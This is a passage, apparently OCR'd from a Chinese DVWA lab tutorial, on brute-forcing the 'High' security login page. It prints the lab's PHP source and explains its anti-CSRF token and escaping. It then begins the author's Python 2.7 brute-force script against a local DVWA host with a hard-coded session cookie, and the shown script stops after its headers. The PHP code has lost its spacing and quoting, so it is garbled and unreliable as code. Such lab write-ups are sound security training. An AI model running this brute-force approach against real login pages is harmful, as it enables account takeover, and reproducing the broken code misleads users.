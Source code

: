     //Sanitiseusernameinput
    $user=$_GET['username'];
    $user=stripslashes($user);
    $user=mysql_real_escape_string($user);
    
    //Sanitisepasswordinput
    $pass=$_GET['password'];
    $pass=stripslashes($pass);
    $pass=mysql_real_escape_string($pass);
    $pass=md5($pass);
    
    //Checkdatabase
    $query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
    $result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');
    
    if($result&&mysql_num_rows($result)==1){
    //Getusersdetails
    $avatar=mysql_result($result,0,"avatar");
    
    //Loginsuccessful
    echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
    echo"<imgsrc="{$avatar}"/>";
    }
    else{
    //Loginfailed
    sleep(rand(0,3));
    echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
    }
    
    mysql_close();
    }
    
    //GenerateAnti-CSRFtoken
    generateSessionToken();
    
    ?>

High级别的代码加入了Token，可以抵御CSRF攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login以及user_token。

![][18]

每次服务器返回的登陆页面中都会包含一个随机的user_token的值，用户每次登录时都要将user_token一起提交。服务器收到请求后，会优先做token的检查，再进行sql查询。

![][19]

同时，High级别的代码中，使用了stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string对参数username、password进行过滤、转义，进一步抵御sql注入。

**漏洞利用**

由于加入了Anti-CSRFtoken预防无脑爆破，这里就不推荐用Burpsuite了，还是简单用python写个脚本吧。

下面是我自己写的一个脚本（python 2.7），用户名为admin，对password参数进行爆破并打印结果，仅供各位参考。

    from bs4 import BeautifulSoup
    import urllib2
    header={        'Host': '192.168.153.130',
            'Cache-Control': 'max-age=0',
            'If-None-Match': "307-52156c6a290c0",
            'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
            'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
            'Accept': '*/*',
            'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
            'Accept-Encoding': 'gzip, deflate, sdch',
            'Accept-Language': 'zh-CN,zh;q=0.8',
            'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'}
    requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"

[1]: http://www.freebuf.com/articles/web/116437.html?utm_source=tuicool&utm_medium=referral
[5]: http://www.dvwa.co.uk/
[6]: http://img0.tuicool.com/eENRVju.jpg!web
[7]: http://www.freebuf.com/sectool/102661.html
[8]: http://img0.tuicool.com/3ay67fu.jpg!web
[9]: http://img0.tuicool.com/7RZBVfi.jpg!web
[10]: http://img0.tuicool.com/uiEr2uu.jpg!web
[11]: http://img1.tuicool.com/MnYVVrE.jpg!web
[12]: http://img0.tuicool.com/ZfQv6nn.jpg!web
[13]: http://img1.tuicool.com/QfM3I33.jpg!web
[14]: http://img2.tuicool.com/FjeYFjE.jpg!web
[15]: http://img0.tuicool.com/bYbUJjV.jpg!web
[16]: http://blog.csdn.net/hornedreaper1988/article/details/43520257
[17]: http://www.cnblogs.com/Safe3/archive/2008/08/22/1274095.html
[18]: http://img0.tuicool.com/YrYfuu7.jpg!web
[19]: http://img0.tuicool.com/V7bIvqy.jpg!web
[20]: http://img1.tuicool.com/3iy6Ff2.jpg!web
[21]: http://img0.tuicool.com/e6Vzqer.jpg!web
[22]: http://img2.tuicool.com/Mj6nQ33.jpg!web
[23]: http://www.cnblogs.com/pinocchioatbeijing/archive/2012/03/20/2407869.html